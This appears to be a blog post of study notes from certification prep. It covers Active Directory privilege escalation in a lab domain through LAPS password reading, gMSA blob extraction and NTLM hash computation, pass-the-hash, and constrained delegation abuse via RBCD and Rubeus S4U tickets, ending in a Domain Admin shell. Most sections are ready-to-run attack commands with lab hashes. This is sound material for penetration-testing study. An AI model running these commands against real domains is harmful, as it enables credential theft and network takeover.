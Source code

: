 ```yaml
---
title: "2 - AD Privesc"
classes: single
header:  
  teaser: /assets/images/posts/crte/crte-teaser3.jpg
  overlay_image: /assets/images/main/header9.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "LAPS, gMSA and Constrained Deleg"
description: "LAPS, gMSA and Constrained Deleg"
categories:
  - notes
  - crte
tags:
  - intermediate
  - AD
  - Windows
  - privesc 
toc: true
---
```


# AD Privesc

Some content is the same as in CRTP:

[CRTP AD Privilege Escalation](https://johnermac.github.io/notes/crtp/domprivesc/)

## LAPS

LAPS (Local Administrator Password Solution) provides centralized storage of local users passwords in AD with periodic randomizing.

> *…it mitigates the risk of lateral escalation that results when customers have the same administrative local account and password combination on many computers.*

- Storage in clear text, transmission is encrypted (Kerberos).
- Configurable using GPO.
- Access control for reading clear text passwords using ACLs. 
- Only Domain Admins and explicitly allowed users can read the passwords.

![Alt text](/assets/images/posts/crte/1.png){: .align-center}

On a computer, if LAPS is in use, a library AdmPwd.dll can be found in the:
```powershell
C:\Program Files\LAPS\CSE\ directory.
```

**To find users who can read the passwords in clear text machines in OUs**

PowerView:
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

**To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text**

Using Active Directory module
```powershell
Get-LapsPermissions.ps1
```

Using LAPS module (can be copied across machines):
```powershell
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

**Once we compromise the user which has the Rights, use the following to read clear-text passwords**

PowerView:
```powershell
Get-DomainObject -Identity <targetmachine$> | select - ExpandProperty ms-mcs-admpwd
```

Active Directory module:
```powershell
Get-ADComputer -Identity <targetmachine> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```

LAPS module:
```powershell
Get-AdmPwdPassword -ComputerName <targetmachine>
```


## gMSA

A group Managed Service Account (gMSA) provides automatic password management, SPN management and delegated administration for service accounts across multiple servers.

> Use of gMSA is recommended to protect from Kerberoast type attacks!

- A 256 bytes random password is generated and is rotated every 30 days.
- When an authorized user reads the attribute 'msds-ManagedPassword’ the gMSA password is computed.
- Only explicitly specified principals can read the password blob. 
- Even the **Domain Admins can't read it by default**.

**A gMSA has object class *msDS-GroupManagedServiceAccount*. This can be used to find the accounts**

Using ADModule:
```powershell
Get-ADServiceAccount -Filter *
```

Using PowerView:
```powershell
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```

**The attribute *msDS-GroupMSAMembership** (PrincipalsAllowedToRetrieveManagedPassword) lists the principals that can read the password blob**

Read it using ADModule:
```powershell
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

**The attribute *msDS-ManagedPassword* stores the password blob in binary form of MSDS-MANAGEDPASSWORD_BLOB**

Once we have compromised a principal that can read the blob. Use ADModule to read and DSInternals to compute NTLM hash:
```powershell
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

**The *CurrentPassword* attribute in the $decodedpwd contains the clear-text password but cannot be typed!**

Passing the NTLM hash of the gMSA, we get privileges of the gMSA:
```powershell
sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c684cc0fa1744195edd1aec43078
```

**We can access the services and machines (server farms) that the account has access to**


## Golden gMSA

**gMSA password is calculated by leveraging the secret stored in KDS root key object**

We need following attributes of the KDS root key to compute the Group Key Envelope (GKE):
```powershell
- cn
- msKds-SecretAgreementParam
- msKds-RootKeyData
- msKds-KDFParam
- msKds-KDFAlgorithmID
- msKds-CreateTime
- msKds-UseStartTime
- msKds-Version
- msKds-DomainID
- msKds-PrivateKeyLength
- msKds-PublicKeyLength
- msKds-SecretAgreementAlgorithmID
```

- Once we compute the GKE for the associated KDS root key we can generate the password offline.
- Only privilege accounts such as Domain Admins, Enterprise Admins or SYSTEM can retrieve the KDS root key.
- Once the KDS root key is compromised we can’t protect the associated gMSAs accounts.
- Golden gMSA can be used to retrieve the information of gMSA account, KDS root key and generate the password offline.



## Contrained Delegation (Kerberos Only)

> It requires an additional forwardable ticket to invoke S4U2Proxy.

- We cannot use S4U2Self as the service doesn’t have TRUSTED_TO_AUTH_FOR_DELEGATION value configured.

We can leverage RBCD to abuse Kerberos Only configuration:

1. Create a new Machine Account
2. Configure RBCD on the machine configured with Constrained Delegation.
3. Obtain a TGS/Service Ticket for the machine configured with Constrained


Delegation by leveraging the newly created Machine Account:
```powershell
Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step.
```


Enumerate constrained delegation using ADModule:
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

Since **ms-DS-MachineAccountQuota is set to 10** for all domain users, any domain user can create a new Machine Account and join the same in the current domain.

Create a new Machine Account using Powermad.ps1 script:

[Powermad on GitHub](https://github.com/Kevin-Robertson/Powermad)

```powershell
. C:\AD\Tools\Powermad\Powermad.ps1
New-MachineAccount -MachineAccount studentcompX
```
**We already compromised us-mgmt**

**Configure RBCD** on us-mgmt using us-mgmt$ computer account:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /impersonateuser:administrator /domain:us.techcorp.local /ptt /nowrap
```
Using ADModule:
```powershell
Set-ADComputer -Identity us-mgmt$ -PrincipalsAllowedToDelegateToAccount studentcompX$ -Verbose
```

**Obtain a TGS/Service Ticket** for us-mgmt (machine configured with Constrained Delegation) by leveraging the newly created Machine Account (studentcompx):
```powershell
C:\AD\Tools\Rubeus.exe hash /password:P@ssword@123
C:\AD\Tools\Rubeus.exe s4u /impersonateuser:administrator /user:studentcompX$ /rc4:D3E5739141450E529B07469904FE8BDC /msdsspn:cifs/us-mgmt.us.techcorp.local /nowrap
```

**Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step**
```powershell
C:\AD\Tools\Rubeus.exe s4u /tgs:doIGxjCCBsKgAwIBBaEDAgEWoo... /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /msdsspn:cifs/us-mssql.us.techcorp.local /altservice:http /nowrap /ptt
```

**Access the us-mssql using WinRM as the Domain Admin**:
```powershell
winrs -r:us-mssql.us.techcorp.local cmd.exe
```

